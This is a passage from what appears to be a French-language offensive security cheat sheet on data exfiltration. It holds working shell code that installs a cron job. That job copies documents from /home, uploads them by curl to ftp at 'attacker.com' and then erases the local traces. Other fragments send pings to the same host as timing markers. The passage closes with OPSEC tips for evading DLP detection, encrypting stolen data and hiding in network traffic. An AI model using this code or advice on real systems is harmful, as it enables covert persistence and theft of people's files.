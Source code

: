 ```bash
        # Send ping as timing marker
        subprocess.run(['ping', '-c', '1', target], 
                      capture_output=True, timeout=5)

# Usage
exfil_timing("secret", "attacker.com")
EOF
```

### Scheduled Exfiltration
```bash
# Crontab pour exfiltration périodique
(crontab -l; echo "0 2 * * * /usr/local/bin/exfil-routine.sh") | crontab -

# Script d'exfiltration routinière
cat > /usr/local/bin/exfil-routine.sh << 'EOF'
#!/bin/bash
DATE=$(date +%Y%m%d)
BACKUP_DIR="/tmp/.backup_$DATE"

mkdir -p $BACKUP_DIR
find /home -name "*.doc*" -o -name "*.pdf" | head -10 | xargs -I {} cp {} $BACKUP_DIR/

tar czf /tmp/daily_backup_$DATE.tar.gz $BACKUP_DIR
curl -T /tmp/daily_backup_$DATE.tar.gz ftp://backup:password@attacker.com/

rm -rf $BACKUP_DIR /tmp/daily_backup_$DATE.tar.gz
EOF
chmod +x /usr/local/bin/exfil-routine.sh
```

## 🛡️ Conseils OPSEC
- Éviter les canaux d'exfiltration évidents (FTP, email direct)
- Fragmenter les données pour éviter la détection DLP
- Utiliser des services légitimes comme couverture
- Chiffrer systématiquement les données exfiltrées
- Implémenter des délais aléatoires pour éviter la détection pattern

## ⚠️ Erreurs fréquentes
- Exfiltrer des volumes trop importants d'un coup (détectable)
- Utiliser des canaux non-chiffrés (interception possible)
- Oublier de nettoyer les traces locales après exfiltration
- Ne pas tester l'intégrité des données exfiltrées
- Ignorer les systèmes DLP (Data Loss Prevention) en place

## 💡 Astuces
- Combiner plusieurs canaux pour la redondance
- Utiliser la steganographie pour cacher dans du contenu légitime
- Implémenter des mécanismes de retry automatique
- Créer des leurres (fake data) pour confondre la détection
- Utiliser les périodes de forte activité réseau pour se camoufler
